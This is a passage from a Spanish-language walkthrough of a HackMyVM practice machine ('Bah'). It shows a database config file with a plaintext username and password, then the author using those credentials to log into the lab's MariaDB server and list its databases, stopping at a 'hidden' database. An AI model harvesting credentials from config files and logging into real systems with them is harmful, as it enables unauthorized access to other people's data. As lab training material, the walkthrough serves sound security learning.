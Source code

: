 ```yaml
all:
  doctrine:
    class: sfDoctrineDatabase
    param:
      dsn: 'mysql:dbname=qpm;host=localhost'
      profiler: false
      username: qpmadmin
      password: "<?php echo urlencode('qpmpazzw') ; ?>"
      attributes:
        quote_identifier: true
```

Vemos un nombre de usuario (**`qpadmin`**) y una contraseña (**`qpmpazzw`**), vamos a probar estas credenciales y conectarnos al servidor **`MySQL`** anteriormente descubierto:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Bah]
└─# mysql -h "192.168.1.110" -u "qpmadmin" -p      
Enter password: qpmpazzw
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 32
Server version: 10.5.11-MariaDB-1 Debian 11

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```

¡Estupendo! Tenemos acceso al servidor **`MySQL`**, pasemos al siguiente paso para ver cómo conseguir una **`Shell`**.

# Movimiento Lateral
### Shell
Para este paso necesitaremos explorar un poco las bases de datos existentes en este servidor:

```sh
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| hidden             |
| information_schema |
| mysql              |
| performance_schema |
| qpm                |
+--------------------+
5 rows in set (0.016 sec)
```

Huh, vemos una base de datos llamada **`hidden`**, vamos a ver qué contiene:
